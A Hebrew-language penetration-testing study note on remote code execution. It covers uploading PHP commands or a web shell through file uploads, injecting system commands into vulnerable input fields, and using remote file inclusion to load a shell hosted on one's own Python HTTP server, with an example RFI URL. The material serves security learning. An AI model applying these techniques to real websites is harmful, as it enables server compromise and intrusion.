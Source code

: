 RCE - Remote Code Execution
# המטרה
כאן המטרה זה להריץ פקודות מערכת כלשהי כמו whoami או ls כל פקודת מערכת בווינדוס או בלינוקס
# אינדיקציה
* פגיעות של RCE היא הרצת פקודה מרחוק ויכולה להתבצע בכמה דרכים:
1. פונקציונליות של העלאת קבצים 
2. נזהה שדה קלט פגיע ע"י בדיקה
3. ננסה להזריק פקודות מערכת ישירות לשדה קלט
	* זה טוב אם יש שיקוף של הקלט באתר למשל
4. ניצול של [[RFI]]

## העלאת קבצים
#### אופציה 1
* כל מנגנון של העלאת קבצים בין אם זה תמונות קבצים או כל דבר אחר ישר אמור להקפיץ לנו חשד שאפשר לבצע RCE
* גם פורום של תגובות יכול להיות פוטנציאל אל RCE
* נניח נראה אופציה של העלאת תמונות, ננסה להזריק פקודת מערכת בphp יחד עם התמונה
<img width="738" height="504" alt="Pasted image 20250723000050" src="https://github.com/user-attachments/assets/7b2b614a-e497-41c2-8a38-e795e6cf2e6f" />

* לשים לב לכל מה שמסומן באדום בבקשה, ואם בתגובה התקבל שהתגובה נשלחה בהצלחה זה אומר שהתמונה עלתה
* כעת ננסה לגשת לתמונה
<img width="692" height="223" alt="Pasted image 20250723000218" src="https://github.com/user-attachments/assets/c61ecf09-9cc2-49e1-b2b4-8c6c5a3ff0ff" />

* הצלחנו אם הפקודה עבדה
* המטרה בסוף זה להצליח לבצע פקודות מערכת כמו בדוגמא echo ומכאן יש לנו שליטה כמו cmd ואפשר להגיע למה שביקשו
#### אופציה 2
במקום להעלות פקודת מערכת אחת, ננסה להעלות shell בphp (בסיסי למשל) ואז יהיה לנו גישה לcmd 
## שדה קלט פגיע
* אם נזהה שדה קלט מסוים ובמיוחד שהאתר הוא עם סיומת php למשל:
 <img width="407" height="48" alt="Pasted image 20250723000448" src="https://github.com/user-attachments/assets/429b60c8-b42b-4b81-ba62-f634c503d077" />
 
* זה אינדיקציה לאפשרות של RCE
* לשים לב שהדוגמא זה בGET והמשתנים בURL אבל ייתכן והם יהיו בגוף הבקשה בPOST
* מאחורי הקלעים יש מצב שהמערכת מקבלת את המשתנה ואז למשל ואז משלימה את הפקודה :
```
echo admin;
```
* ולכן אם מראש נבצע הפרדה כלשהי נוכל לעשות פקודות מערכת משלנו
<img width="481" height="34" alt="Pasted image 20250723000858" src="https://github.com/user-attachments/assets/9d51cce0-9e93-4495-b643-970a48f19679" />


## ניצול של RFI
* אם גילינו RFI שטוען קבצים משרת מרוחק שלי למשל:
````
http://example.com/index.php?module=http://server2.example.com/welcome.php
````

* כל שנצטרך לעשות הוא להכין קובץ shell בphp למשל
	* לחפש באינטרנט או לשאול AI
* להרים שרת http שממנו נטען את הקובץ (באמצעות הכתובת)
	* עובד במחשב רק אם יש פייתון מותקן (לא בVScode אלא ממש אפליקציית פייתון)
	* אם אין, להרים מkali linux יש שם באופן דיפולטיבי
```
python -m http.server 1234
```
* ואז ניגש אל הshell במיקום המדויק בעזרת RFI
